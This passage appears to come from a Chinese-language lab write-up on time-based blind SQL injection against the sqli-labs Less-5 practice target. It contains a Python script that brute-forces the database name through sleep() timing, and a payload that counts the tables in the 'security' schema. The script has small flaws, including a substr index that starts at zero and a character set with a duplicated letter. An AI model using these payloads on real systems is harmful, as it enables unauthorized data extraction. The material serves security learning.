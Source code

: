 就这样一直爆破，爆破到第8个字符，就可以得到库名是:security

当然，你也可以用python脚本自动爆破，这就需要用到py的request库和time库

这是我自己写的python请求

用的时候记得改url和传上去的参数的名称



```python
import time
import requests

database=''
chars='abcdefghigklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
database_length=0#库名长度
#爆破库名长
for l in range(1,20):
    url="http://e46e6c90-daaa-46c6-be9f-79cc102dba64.node3.buuoj.cn/Less-5/?id=1' and if(length(database())={},sleep(3),1)--+"
    payload=url.format(l)
    print(payload)
    start_time1=time.time()
    requests.get(payload)
    if time.time()-start_time1 > 2:
        database_length=l
print(database_length)
#爆破库名
for i in range(database_length):#i是爆破的字段
    for c in chars:#c是用于所比较的字符
        url ='http://e46e6c90-daaa-46c6-be9f-79cc102dba64.node3.buuoj.cn/Less-5/'+"?id=1' and if(substr((database()),"+str(i)+",1)='"+c+"',sleep(3),1)--+"
        print(url)
        start_time = time.time()
        requests.get(url)
        if  time.time() - start_time > 2:
            database+=c
            print(database)
        else:
            pass
print(database)
```

最后爆出来库名是security

#### 爆有几个表

PayLoad:?id=1'and if((select count(*) from information_schema.tables where table_schema='security')=1,sleep(3),1)--+

解析payLoad

select count(*) from information_schema.tables where table_schema='security'

获取information_schema.tables中table_schema='security'里面有几个表

